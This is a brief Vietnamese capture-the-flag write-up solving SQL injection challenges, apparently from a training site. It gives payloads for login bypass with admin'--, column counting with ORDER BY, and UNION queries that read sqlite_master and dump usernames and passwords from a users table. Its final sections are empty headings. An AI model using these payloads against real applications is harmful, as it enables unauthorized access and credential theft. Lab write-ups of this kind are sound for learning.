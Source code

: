 ### [SQL Injection - Authentication]()


Ta đơn giản sử dụng payload *username = admin’--* để bypass qua phần password của admin.


Sau đó mở source code để check password, pass cũng chính là flag.




### [SQL injection - String]()

Đầu tiên ta sử dụng 1 payload để server trả về lỗi systax hoặc lỗi gì đó để xác định version của server sql. Trong trường hợp này SQLite3 


Dùng payload như sau để xác định số cột trong database 1’ order by 1-- và tăng dần cho đến khi trả về lỗi. Lần này số cột sẽ là 2.


Ta lấy tên bảng bằng cách truy vấn. Với SQLite3 ta gõ lệnh sau: 
```
1' union select 1,sql from sqlite_master--
```



```
1’ union select username,password FROM users--
```


### [SQL injection - Numeric]()

Ta sử dụng tương tự các payload tương tự như trên để xác định các thành phần cơ bản như trên của server.



```
1 union select 1,2,3--
```


```
1 union select 1,username,password FROM users--
```



### [SQL Injection - Authentication]()



### [SQL Injection - Blind]()
